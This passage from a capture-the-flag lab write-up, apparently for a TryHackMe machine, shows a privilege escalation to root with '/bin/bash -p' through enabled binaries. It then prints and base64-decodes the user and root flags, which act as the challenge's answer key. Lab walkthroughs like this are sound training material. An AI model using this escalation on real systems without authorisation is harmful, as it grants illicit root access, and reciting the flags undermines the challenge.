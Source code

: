 ![Pasted image 20250321162922.png](../../IMAGES/Pasted%20image%2020250321162922.png)

We got a lot of binaries enabled, we can use this to get a root shell:

```
/bin/bash -p
```

![Pasted image 20250321163046.png](../../IMAGES/Pasted%20image%2020250321163046.png)

We got a root shell by this, let's read both flags:

```
bash-4.4# cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

This is encoded using base64, let's decode:

```
echo 'VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259' | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

Let's read root:

```
bash-4.4# cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

Same as user:

```
echo 'VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9' | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```
